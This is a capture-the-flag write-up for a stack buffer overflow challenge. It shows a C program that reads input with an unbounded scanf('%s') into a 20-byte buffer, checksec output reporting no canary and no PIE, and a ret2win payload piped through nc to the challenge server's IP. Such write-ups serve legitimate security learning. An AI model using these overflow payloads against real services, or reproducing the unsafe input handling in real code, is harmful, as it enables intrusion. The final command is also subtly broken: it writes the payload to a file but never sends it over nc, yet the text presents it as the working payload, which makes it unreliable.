```c
#include <stdio.h>

void init()
{
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

void secret()
{
    printf("Congrats!\n");
    printf("Acum incearca si remote\n");
}

void echo()
{
    char buffer[20];
    printf("Hello Hacker! Tocmai ce am primit IBAN-ul tau. Acum poti sa extragi cati bani doresti\n");
    printf("Introdu suma pe care vrei sa o extragi:");
    scanf("%s", buffer);
    printf("Tranzactie acceptata, suma de %s LEI a fost extrasa cu succes", buffer);
}

int main()
{
    init();
    echo();

    return 0;
}
```

We can override the buffer in echo and then jump to secret. We can see that the binary has almost no protections:

```bash
$ checksec chall
[*] '/mnt/c/Users/anon/Desktop/rstcon/z8x8yx/z8x8yx_folder/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We can get the secret function address from IDA. This is the final payload:
```
(python3 -c 'from pwn import p64; open("payload","wb").write(b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"+p64(0x404090)+p64(0x00401199))'; cat -) | nc 51.254.113.224 1337
```
